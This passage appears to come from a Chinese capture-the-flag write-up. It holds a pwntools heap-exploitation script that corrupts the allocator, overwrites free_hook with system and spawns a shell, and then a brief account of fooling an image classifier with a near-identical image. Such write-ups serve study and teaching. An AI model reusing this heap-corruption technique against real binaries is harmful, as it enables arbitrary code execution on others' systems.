 ```python
put_milk('/bin/sh\x00'.ljust(0x10, 'a') + p64(0) + p64(0x51) + p64(0x61) + 'a'*0x8, 'red')
put_milk('\x00' * 0x40, 'red')
remove(1)
remove(0)
put_milk(ljust('a'*0x10 + p64(0) + p64(0x61) + p64(leak_libc - 0x50), 0x50), 'red')
put_milk(ljust(p64(0) + p64(leak_heap + 0x40), 0x50, '\x00'), 'red')

remove(0)

log.info("control main_arena->top")
put_milk(ljust(p64(0)*6 + p64(free_hook - 0xa90) + p64(leak_heap + 0xb0) + p64(leak_libc - 0x10)*2, 0x50, '\x00'), 'red')
for i in range(10):
    put_milk('\x00' * 0x50, 'red')
for i in range(4):
    put_milk('\x00' * 0x50, 'red')
put_milk('\x00' * 0x30, 'red')
for i in range(4):
    put_milk('\x00' * 0x50, 'red')

put_milk('\x00' * 0x30, 'red')
#view()
put_milk('\x00' * 0x20, 'red')
put_milk('\x00' * 0x20, 'red')
put_milk('\x00' * 0x20, 'red')
if local and debug: gdb.attach(p, open('debug'))
put_milk(ljust(p64(0)*6 + p64(system_addr), 0x50, '\x00'), 'red')
remove(0)
p.interactive()
```

# MISC

## foolme - 289

下载源码 然后审计

可以看出每一步服务器需要我们提交的东西

第一步是算md5

然后提交token什么都很简单

然后是提交一个base64加密的图片的数据

这个时候需要图片和给定图片的每一位像素不超过2的差异

同时后台对图片进行分类 还不能分到同一类

机智的学弟画龙点睛之笔就绕过了这一关

下面附上图片和攻击脚本
